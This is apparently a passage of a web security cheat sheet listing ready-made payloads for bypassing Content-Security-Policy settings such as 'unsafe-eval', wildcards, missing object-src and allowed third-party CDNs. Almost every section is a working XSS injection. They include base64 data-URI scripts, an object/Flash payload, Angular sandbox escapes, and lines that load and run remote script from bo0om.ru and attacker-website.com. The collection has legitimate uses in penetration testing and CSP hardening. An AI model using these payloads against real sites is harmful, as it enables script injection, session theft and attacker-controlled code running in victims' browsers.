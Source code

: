 ```javascript
// After any of the previous examples, you can execute JS in the iframe with something like:
script=document.createElement('script');
script.src='//bo0om.ru/csp.js';
window.frames[0].document.head.appendChild(script);
```
-----
**'unsafe-eval'**
```html
Content-Security-Policy: script-src https://google.com 'unsafe-eval'; 
```
Working payload:
```javascript
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```
-----
**strict-dynamic**

If you can somehow make an allowed JS code created a new script tag in the DOM with your JS code, because an allowed script is creating it, the new script tag will be allowed to be executed.

-----
**Wildcard (*)**
```html
Content-Security-Policy: script-src 'self' https://google.com https: data *; 
```
Working payload:
```javascript
"/>'><script src=https://attacker-website.com/evil.js></script>
"/>'><script src=data:text/javascript,alert(1337)></script>
```
-----
**Lack of object-src and default-src**
> It looks like this is not longer working!
```javascript
Content-Security-Policy: script-src 'self' ;
```
Working payloads:
```javascript
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e) {alert(1337)}//'>
<param name="AllowScriptAccess" value="always"></object>
```
-----
**File Upload + 'self'**
```javascript
Content-Security-Policy: script-src 'self';  object-src 'none' ; 
```
If you can upload a JS file you can bypass this CSP:

Working payload:
```javascript
"/>'><script src="/uploads/picture.png.js"></script>
```
-----
**Third Party Endpoints + ('unsafe-eval')**
```javascript
Content-Security-Policy: script-src https://cdnjs.cloudflare.com 'unsafe-eval'; 
```
Load a vulnerable version of angular and execute arbitrary JS:
```javascript
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}} </div>


"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script> <div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>
```
